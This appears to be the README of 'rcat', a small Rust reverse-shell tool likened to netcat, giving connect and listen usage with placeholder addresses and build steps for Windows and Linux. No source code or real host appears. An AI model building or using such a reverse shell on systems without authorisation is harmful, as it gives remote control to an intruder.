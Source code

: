 # rcat

Simple rust reverse shell, similar to nc.

## usage

rcat connect <ip> <port>
rcat listen <ip> <port>
rcat_ip_port

## compile

rustup target add x86_64-pc-windows-gnu
rustup toolchain install stable-x86_64-pc-windows-gnu

Windows:
cargo build --release --target x86_64-pc-windows-gnu

Linux:
cargo build --release

To reduce the filesize further, you can strip the binaries with `strip`.